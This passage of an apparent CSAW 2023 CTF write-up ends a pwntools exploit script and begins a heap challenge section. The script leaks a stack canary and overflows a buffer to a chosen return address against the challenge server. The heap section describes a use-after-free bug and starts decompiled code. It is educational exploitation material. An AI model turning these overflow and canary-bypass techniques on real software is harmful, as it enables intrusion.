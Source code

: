     canary_leak = (int(canary_leak,16))
    log.info("canary_leak: " + hex(canary_leak))

    p = b""
    p += b"A" * 44
    p += b"AAAA" * 5
    p += p32(canary_leak)
    p += p32(0x0804900e)
    p += p32(0x8049304) 

    done(2000, p)
    r.interactive()



if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("pwn.csaw.io", 7900)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)
{% endhighlight %}

<img src="/images/csaw2023/us2.png>

## Super Secure Heap

### Binary info:

    super_secure_heap: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7ab5b212ea5cca28863c19afbc5887a6da6ceec3, for GNU/Linux 3.2.0, not stripped

    Canary                        : ✓
    NX                            : ✓
    PIE                           : ✓
    Fortify                       : ✘
    RelRO                         : Full

### Solver

In this challenge we're given a binary that contains `use after free` vulnerability. The binary have a function called `secure_stuff` and it will encrypt the string before inserted to heap segment. But if we input data to key our input will not be encrypted.

{% Highlight C %}
__int64 __usercall set@<rax>(__int64 a1@<rbp>, __int64 a2@<rdi>, __int64 a3@<rsi>)
{
  __int64 result; // rax
  unsigned int v4; // [rsp-18h] [rbp-18h]
  signed int v5; // [rsp-10h] [rbp-10h]
  unsigned int v6; // [rsp-Ch] [rbp-Ch]
  __int64 v7; // [rsp-8h] [rbp-8h]
